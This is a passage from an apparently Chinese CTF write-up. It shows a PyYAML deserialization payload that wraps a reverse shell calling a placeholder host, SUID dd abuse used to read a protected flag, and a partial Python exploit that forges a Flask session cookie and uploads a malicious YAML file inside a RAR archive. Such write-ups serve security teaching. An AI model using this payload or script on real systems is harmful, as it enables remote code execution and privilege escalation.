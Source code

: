 翻译过来其实就是 `bytes(map(eval, map(base64.b64decode, 'BASE64 HERE')))`。然后 base64 的部分，可以填一个常规的反弹 shell：   
```
exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"YOUR-IP\",PORT)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/sh\",\"-i\"]);")
```

然后把这个 yaml 上传到一个 `/display` 能访问到的位置上（即要提前算好 md5），然后再用 `/display` 摸一下，就能执行了。执行完了之后，就拿到了 shell。

但是翻了一下，发现 `/flag` 好像没权限读。

`find -perm -u=s -type f 2>/dev/null` 遍历有suid权限的程序，发现除了正常的程序外有dd

考虑dd写passwd提到root，但是队里神仙师傅直接用 `dd if=/flag of=copy` 复制了一份 flag，然后就可以读了。

上面 web 部分的脚本如下：

``` python
from itsdangerous import URLSafeTimedSerializer
import base64
import flask
import hashlib
import os
import requests

def dump_cookies(secret_key, data):
    return URLSafeTimedSerializer(
        secret_key,
        salt = 'cookie-session',
        serializer = flask.json.tag.TaggedJSONSerializer(),
        signer_kwargs = dict(key_derivation = "hmac", digest_method = hashlib.sha1),
    ).dumps(data)

def create_rar(target, contents):
    for (file, content) in contents.items():
        with open(file, 'w') as f:
            f.write(content)
        os.system(f'rar a {target} {file}')

def create_session(key):
    data = { 'user': 'Administrator', 'updir': 'fileinfo' }
    return dump_cookies(key, data)

def create_yaml_payload():
    command = f'exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect((\\\"YOUR-IP\\\",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
     os.dup2(s.fileno(),2); p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);")'
    command_encode = base64.b64encode(command.encode()).decode()

    return f'''
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
    - !!python/name:base64.b64decode
    - ["{command_encode}"]'''

def main():
    dummy_filename = 'monad'
    dummy_filename_md5 = hashlib.md5(dummy_filename.encode()).hexdigest()
    rar = f'.1.rar'
    create_rar(rar, { f'{dummy_filename_md5}.yaml': create_yaml_payload() })

    session = create_session('engine-1')
    url = 'http://eci-2ze2kqsxzki5jel0ux1b.cloudeci1.ichunqiu.com:8888'
```